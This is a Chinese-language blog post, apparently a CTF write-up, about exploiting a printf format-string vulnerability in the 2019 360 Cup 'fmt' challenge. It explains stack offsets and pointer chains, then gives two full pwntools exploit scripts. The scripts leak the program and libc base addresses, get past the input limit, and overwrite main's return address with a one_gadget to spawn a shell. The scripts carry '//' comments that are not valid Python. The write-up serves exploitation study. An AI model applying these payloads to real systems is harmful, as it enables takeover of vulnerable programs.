




---

layout: post

title: '再探格式化漏洞'

date: '2019-10-23'

header-img: "img/home-bg.jpg"

tags:
     - pwn 格式化漏洞  
author: 'De4dCr0w'

---

<!-- more -->

### 前言

之前已经对格式化漏洞的原理进行了记录：

https://de4dcr0w.github.io/ISCC2017%E4%B9%8Bpwn1%E5%88%9D%E6%8E%A2%E6%A0%BC%E5%BC%8F%E5%8C%96%E6%BC%8F%E6%B4%9E.html

针对2019 360杯初赛的fmt题进行一次复习。

### 题目解析

题目流程较为简单，输入一个字符串，并直接用printf打印，存在格式化漏洞，并且限制输入三次。



开启了全保护：



32位程序中，printf输入的参数为fmt字符串+arg1+arg2+……，从右往左依次压入栈中。所以格式化漏洞第一步操作的都是栈中的数据，首先要找到打算泄漏或写入的地址距离fmt字符串的偏移是多少，可以通过pwngdb插件fmtarg来计算。

fmtarg 得到的是目的地址在整个字符串的索引，所以要减去1（去除fmt），例如：%order$s 对应的order为fmt字符串后面的参数的顺序。

64位程序中order要加上6，因为前6个参数是通过寄存器传递的。

调试时在printf函数下断点，查看栈的布局：





通常格式化漏洞利用会传入地址进行任意写，但如果字符串不保存在栈中，而是bss区或堆中时，例如本题，就需要在栈中找到像path2->path1->path0这样的利用链，path2和path1为栈中的地址，可以对path2的索引进行写入修改path0，然后对path1的索引进行写入修改path0的内容，达到任意地址写入的效果。（通常找到ebp，因为ebp保存的就是上一个栈帧的ebp地址）

一般格式化漏洞会修改got表来执行命令，但本题开启了保护，所以只能通过修改main函数的返回地址为one_gadget来get shell。

### Exp

```
from pwn import *
from LibcSearcher import LibcSearcher
import time

context.log_level = 'debug'

p = process("./pwn2")

one_gadget = 0x3ac5e

def send_data(payload):
    p.recvuntil("2. Exit")
    p.sendline("1")
    p.recvuntil("It's time to input something")
    p.sendline(payload)

def Exit():

    p.recvuntil("2. Exit")
    p.sendline("2")

if __name__=='__main__':
    
    payload =  "AA%1$x%15$x%6$x"
    send_data(payload)
    p.recvuntil("AA")
    elf_base = long(p.recv(8),16)-0x2010
    print "elf_base:",hex(elf_base) //泄漏程序基地址

    libc_main = long(p.recv(8),16)-247

    path1 = long(p.recv(8),16)
    ret_addr = path1 - 0x98 //泄露返回地址
    print 'ret_addr:',hex(ret_addr)

    libc = LibcSearcher("__libc_start_main",int(libc_main))
    main_offset = libc.dump('__libc_start_main')
    //因为题目中没有给出libc版本，所以需要泄露函数地址通过LibcSearcher查找版本

    libc_base = libc_main-main_offset
    print "libc_base:",hex(libc_base) // 泄漏libc基地址

    one_gadget = libc_base + one_gadget

    i_stack_addr = path1 - 0xc0 + 3 
    print "i_stack_addr:",hex(i_stack_addr)
    
    #gdb.attach(p)
    //修改循环的值，在高地址写入0xff,使其变成负数，绕过只能printf三次的限制
    payload = "%" + str(i_stack_addr&0xffff) + "c%6$hn"
    send_data(payload)

    payload = "%" + str(0xff) + "c%57$hhn"
    send_data(payload)

    //修改path0 为main函数返回地址，写入两个字节修改地址部分
    payload = "%" + str(ret_addr&0xffff) + "c%6$hn"
    send_data(payload) 

    payload = "%" + str(one_gadget&0xffff) + "c%57$hn"
    send_data(payload)

    //修改path0 为main函数返回地址+2的地址，写入两个字节修改高地址部分
    payload = "%" + str((ret_addr+2)&0xffff) + "c%6$hn"
    send_data(payload) 

    payload = "%" + str((one_gadget&0xffff0000)>>16) + "c%57$hn"
    send_data(payload)

    Exit() //退出循环 main函数返回，触发one_gadget
    p.interactive()

```

### Exp2

该exp比较dirty，通过改写bss上N的值来绕过次数限制，并泄露got表中printf函数的地址来泄露libc地址，属于舍近求远的行为，而且构造bss的地址时发送数据过大，容易失败。也贴在下面：

```
from pwn import *
from LibcSearcher import LibcSearcher
import time

#context.log_level = 'debug'

p = process("./pwn2")

one_gadget = 0x3ac5e

def send_data(payload):
    p.recvuntil("2. Exit")
    p.sendline("1")
    p.recvuntil("It's time to input something")
    p.sendline(payload)

def Exit():
    p.recvuntil("2. Exit")
    p.sendline("2")

payload1 = "A"*0x3 + "%6$x"+"%6$s" + "%1$x"
send_data(payload1)
p.recvuntil("AAA")
path1 = long(p.recv(8),16)
print "path1_addr:",hex(path1)

path0 = u32(p.recv(4))
print "path0_addr:",hex(path0)

elf_base = long(p.recv(8),16)-0x2010
print "elf_base:",hex(elf_base)

N_addr = elf_base + 0x2008
print "N_addr:",hex(N_addr) //泄漏bss 上N的地址
#------------------------------------

payload2 = "%" + str(N_addr)+"c%6$n"
send_data(payload2) // 修改path0为N的地址

payload3 = "%" + str(0xbe)+"c%57$hhn"  // 修改N的值为0xbe
p.sendline("1")
p.recvuntil("It's time to input something")
p.sendline(payload3)

#----------------------------------------

printf_got = elf_base + 0x1fd0
print "printf_got:",hex(printf_got)

payload4 = "%" + str(printf_got)+"c%6$n" //修改path0位printf got表地址
send_data(payload4)

payload5 = "A"*0x3 + "%57$s" 

p.sendline("1")
p.recvuntil("It's time to input something")
p.sendline(payload5)
p.recvuntil("AAA")
printf_addr = u32(p.recv(4)) //泄漏printf 地址
print "printf_addr:",hex(printf_addr) 

libc = LibcSearcher("printf",printf_addr) //查找libc版本

printf_offset = libc.dump('printf')

libc = printf_addr-printf_offset  //泄漏libc基址

ret_addr = path1 - 0x98
print 'ret_addr:',hex(ret_addr)
one_gadget = libc + one_gadget

payload6 = "%" + str(ret_addr&0xffff)+"c%22$hn" //该部分就和上面的exp一样了
send_data(payload6)

payload = "%" + str(one_gadget&0xffff)+"c%59$hn" 
send_data(payload)

payload6 = "%" + str((ret_addr+2)&0xffff)+"c%22$hn"
send_data(payload6)

payload = "%" + str((one_gadget&0xffff0000)>>16)+"c%59$hn" 
send_data(payload)

Exit()

p.interactive()

```

### 参考链接

https://wiki.x10sec.org/pwn/fmtstr/fmtstr_example/

https://github.com/lieanu/LibcSearcher
